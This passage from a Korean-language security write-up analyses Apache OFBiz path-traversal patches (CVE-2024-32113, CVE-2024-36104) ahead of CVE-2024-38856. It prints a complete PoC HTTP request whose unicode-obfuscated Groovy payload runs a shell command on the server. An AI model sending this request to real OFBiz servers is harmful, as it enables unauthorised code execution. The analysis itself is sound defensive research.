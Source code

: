 먼저, 이전에 발생한 `CVE-2024-32113`와 `CVE-2024-36104` 취약점이 패치된 Apache OFBiz 18.12.14 버전에서 Path Traversal 공격을 어떻게 방어하고 있는지 살펴보고, 이 버전에서 발생한 `CVE-2024-38856` 취약점의 발생 원인을 분석해보겠습니다.

## 18.12.14 패치 기록

Apache OFBiz 18.12.14 이전 버전에서 발생한 Path Traversal 취약점은 공격 벡터가된 URI의 요청을 방어하기 위한 코드 로직이 추가되었습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14](https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14)
> 

![image](./images/image-001.png)

즉, `replaceAll` 메서드를 이용하여 세미콜론(`;`) 문자와 URL 인코딩된 점(`%2e`)을 제거하는 방식으로 Path Traversal 공격을 방어하고 있습니다. 이를 통해 기존 PoC를 수행할 경우 아래와 같이 500 Internal Server Error 응답과 함께 예외가 발생된 것을 확인할 수 있습니다.

✅ `CVE-2024-32113`, `CVE-2024-36104` PoC 요청 패킷

```java
POST /webtools/control/main/test/%2E%2E/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

✅ Apache OFBiz 18.12.14 버전에서 `CVE-2024-32113`, `CVE-2024-36104` PoC 요청/응답 결과
